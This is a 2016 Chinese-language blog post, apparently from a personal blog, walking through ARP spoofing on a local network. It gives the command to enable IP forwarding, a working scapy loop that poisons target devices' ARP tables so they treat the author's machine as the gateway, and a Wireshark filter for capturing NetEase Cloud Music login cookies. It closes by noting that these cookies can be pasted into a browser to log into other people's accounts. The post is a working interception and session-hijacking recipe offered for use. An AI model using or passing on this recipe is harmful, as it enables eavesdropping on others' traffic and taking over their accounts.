 ```yaml
---
title: 走进科学之如何正确地抓包——破
date: 2016-04-26 21:25:44
tags: openwrt
---
```

上一篇博客提到窃听流量的方式多种多样。而实际上通过vpn来窃听流量的方式操作起来不是很好玩。

于是经过上网查找，找到了reverland的[博客](http://reverland.org/security/2016/03/08/harvest-mm-pics/)，于是如法炮制的试验了一下。

由于内容继承了上一篇，因此本文的标题就叫“破”好了。

### 原理

通过arp污染，让局域网内的机器认为本机是网关，窃听上传流量

具体一点的原因是这样：数据包在局域网内传输时，会根据本机维护的一个arp表进行传输。

通过查询arp表内局域网ip对应的mac地址发送数据，也就是说只要让目标机器误以为我的机器的mac地址为网关的mac地址就能窃听机器的上传流量，而只要在我机器上做了转发，目标机器就能正常通信

以下的内容和reverland的博客内容一样。。。

### 设置系统转发

切换为root用户之后，在终端中输入

`echo 1 > /proc/sys/net/ipv4/ip_forward`

### arp污染

在进行apr污染之前，可以先查看同一局域网下linux设备或者安卓手机的arp表，使用命令`cat /proc/net/arp`查看。

进入python的交互模式，输入以下命令

```
from scapy.all import *
import time

target = ""//目标机器ip，例如"192.168.1.10"，输入子网"192.168.1.0/24"也行
gateway = ""//网关的ip，例如"192.168.1.1"

while 1:
  send(ARP(op="who-has",pdst=target,psrc=gateway))
  time.sleep(1)
```

很快局域网内的设备arp表就会更新，网关mac地址被更改为本机的mac地址

### 获取cookie

这时打开wireshark，就可以愉快的查看数据包了

输入过滤条件`http.host=="music.163.com" and http.cookie`，然后在手机上打开网易云音乐，就能得到cookie

粘贴到浏览器就能愉快的登陆别人的网易云音乐了。。虽然这并没有什么用。。